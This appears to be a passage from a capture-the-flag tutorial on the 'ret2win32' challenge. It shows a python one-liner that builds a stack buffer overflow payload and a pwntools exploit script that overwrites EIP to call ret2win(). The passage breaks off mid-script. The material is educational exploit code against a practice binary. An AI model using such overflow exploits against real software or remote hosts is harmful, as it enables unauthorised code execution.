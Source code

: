 ```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x2c\x86\x04\x08')"  > payload
```

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automated Exploitation with pwntools

`exploit.py`:

```python
from pwn import *

# SETUP

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
         return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Target binary
exe = './ret2win32'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                     EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 44

payload = flat(
    b'A' * padding,    # Padding up to EIP
    elf.functions.ret2win # Address of ret2win(): 0x0804862c
)

# Write payload to file
```